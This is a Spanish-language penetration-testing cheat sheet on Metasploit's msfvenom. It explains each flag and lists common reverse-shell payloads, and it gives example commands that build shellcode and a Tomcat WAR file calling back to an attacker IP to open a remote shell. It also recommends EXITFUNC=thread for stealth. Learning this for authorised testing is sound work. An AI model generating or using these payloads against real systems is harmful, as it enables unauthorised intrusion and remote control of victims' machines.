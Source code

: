 #msfvenom 

-----

Es una herramienta del framework Metasploit que se usa para generar **payloads personalizados**, como **reverse shells** y **bind shells**. Permite crear **shellcode** en distintos formatos (Python, C, exe, etc.) para inyectarlo en exploits o archivos ejecutables. Es muy útil en pruebas de penetración para simular ataques reales.


```
msfvenom -p Payload LHOST=IpDeNuestraMaquina LPORT=PuertoQueEstaEnEscucha EXITFUNC=thread -b BadCharts -v shellcode -f FormatoDeSalida -a Arquitectura --platform SistemaOperativo
Ejemplo: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f py -a x86 --platform windows
```

*Parametros:*
`-p` Ingresamos el payload que queremos inyectar | Ejemplo 
	Los payload mas comunes que vamos a usar son: 
		*Windows:* 
			`32Bits:`windows/shell_reverse_tcp 
			`64Bits:`windows/x64/shell_reverse_tcp
		*Linux:*
			`32Bits:`linux/x86/shell_reverse_tcp
			`64Bits:`linux/x64/shell_reverse_tcp
`LHOST=` Nuestra ip
`LPORT=` Puerto que esta en escucha para recibir la [[Reverse shell]]
`EXITFUNC=` Define como termina el proceso al ejecutar el payload, la forma mas segura y sigilosa es usar *thread*
	Ejemplo de por que usar thread: Si yo inyecto el shellcode desde el proceso de la calculadora, usando EXITFUNC=thread el proceso de la calculadora sigue activo cuando yo cierro mi revershell, pero si no tuvierea el EXITFUNC=thread, cuando cierro mi revershell tambien se cierra la calculadora y esto seria poco sigiloso
`-b` Son los badcharts que tenemos que evitar para que se rompa el shellcode
`-v` Es para darle un nombre a la variable que tiene el shell code
	Ejemplos:
		Si ponemos de nombre buf, el shellcode se va a expotar asi: *buf += b"\xfc\xe8\x89..."*
		Pero si colocamos legacy va a exportarse de la siguiente manera: *legacy += b"\xfc\xe8\x89..."*
`-f` Formato de salida. Por ejemplo puede ser py, exe, bin, etc
`-a`Especificamos si la maquina victima es de *x86*(32bits) o *x64*(64bits)
`--platform` Sistema operativo de la maquina victima. Puede ser *windows* o *linux*

-------
# Comando para ver todos los payloads

```shell
msfvenom -l payloads
```


-------
# [[Reverse shell]]

#### Payload para tomcat archivo.war
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```